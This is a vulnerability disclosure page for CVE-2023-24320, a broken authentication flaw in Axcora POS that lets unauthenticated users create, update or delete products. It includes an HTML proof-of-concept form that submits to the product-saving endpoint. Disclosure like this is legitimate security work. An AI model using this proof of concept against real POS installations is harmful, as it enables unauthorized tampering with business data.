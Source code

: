```yaml
---
title: "Axcora POS #0~gitf77ec09 Broken Authentication"
excerpt: "The Axcora POS software has a broken authentication issue that could allow unauthenticated users to create, update, or delete products. Additionally, since user input is not sanitized, unauthenticated users may also be able to perform Cross-Site Scripting attacks."
categories:
  - CVE
tags:
  - Broken Auth
toc: true
toc_label: "Table of Content"
toc_icon: "cogs"
toc_sticky: true
header:
  og_image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh6GkfXp7KBnHkkQVd892enogtOjUQvTVxLVspLo3tY7FzdD8K29cDUIuZbVdCDK0hqZGLOm--Q6wu08aV7vwn71XpjAoCEslgQqCwvxPHmVTpkHLflUkzb2XddsIPbFuAvH4XNS9ulFpzEshCNoLxTTjhdsAmXLtXXVk6rDN8GEqg-1bJh9cF_6BZ_hg/s700/broken-auth.png
---
```


![Broken Authentication](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh6GkfXp7KBnHkkQVd892enogtOjUQvTVxLVspLo3tY7FzdD8K29cDUIuZbVdCDK0hqZGLOm--Q6wu08aV7vwn71XpjAoCEslgQqCwvxPHmVTpkHLflUkzb2XddsIPbFuAvH4XNS9ulFpzEshCNoLxTTjhdsAmXLtXXVk6rDN8GEqg-1bJh9cF_6BZ_hg/s700/broken-auth.png)

## Researcher
This vulnerability was discovered by [@yuyudhn](https://github.com/yuyudhn).

## Description
The Axcora POS software has a broken authentication issue that could allow unauthenticated users to create, update, or delete products. Additionally, since user input is not sanitized, unauthenticated users may also be able to perform Cross-Site Scripting attacks.

## Details
Detail about software affected by [CVE-2023-24320](/CVE-2023-24320/).

| Parameter   | Description |
| ------------| ------------|
| Software | Axcora POS |
| Vendor | mesinkasir |
| Software URL | https://github.com/mesinkasir/posapp |
| Vulnerable Version | #0~gitf77ec09 |
| Classification | Broken Authentication |
| Required privilege | Unauthenticated |
| Publicly disclosed | 2023-02-222 |

## Proof of Concept
```html
<html>
  <body>
    <h1>Axcora POS Broken Access Control</h1>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/posapp/main/saveproduct.php" method="POST">
      Barcode : <input type="text" name="code" value="1337" /><br>
      Category: <input type="text" name="gen" value="x" /><br>
      Name: <input type="text" name="name" value="&#32;x" /><br>
      Reception: <input type="text" name="date&#95;arrival" value="" /><br>
      Expiry: <input type="text" name="exdate" value="" /><br>
      Sell Pirce: <input type="text" name="price" value="1337" /><br>
      Buy Price: <input type="text" name="o&#95;price" value="1330" /><br>
      <input type="hidden" name="profit" value="7" />
      <input type="hidden" name="supplier" value="" />
      Quantity: <input type="text" name="qty" value="111" /><br>
      <input type="hidden" name="qty&#95;sold" value="111" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## References
- https://www.cve.org/CVERecord?id=CVE-2023-24320
- https://nvd.nist.gov/vuln/detail/CVE-2023-24320
- https://www.tenable.com/cve/CVE-2023-24320
- https://www.youtube.com/watch?v=1FhPL3erWd4